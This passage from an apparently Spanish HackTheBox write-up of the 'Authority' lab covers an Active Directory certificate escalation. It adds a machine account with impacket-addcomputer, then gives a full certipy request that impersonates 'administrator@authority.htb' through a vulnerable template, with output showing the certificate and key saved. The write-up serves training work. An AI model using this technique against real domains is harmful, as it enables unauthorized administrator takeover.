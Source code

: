 [<img src="/assets/images/hackthebox/Authority/captura8.png">](/assets/images/hackthebox/Authority/captura8.png)
Aquí podéis ver que está pasando realmente [Hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)

Desde nuestra máquina de atacante con la herramienta **impacket-addcomputer** podemos añadir un nuevo equipo en la máquina víctima gracias al permiso **SeMachineAccountPrivilege**, para posteriormente Solicitar un certificado para suplantar al usuario **Administrador**.
[<img src="/assets/images/hackthebox/Authority/captura7.png">](/assets/images/hackthebox/Authority/captura7.png)

Solicitud de certificado con **certypy**:
```bash
certipy req -username "CAHOn3R$" -p "cahoner123" -dc-ip 10.10.11.222 -ca AUTHORITY-CA -upn 'administrator@authority.htb' -template CorpVPN -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
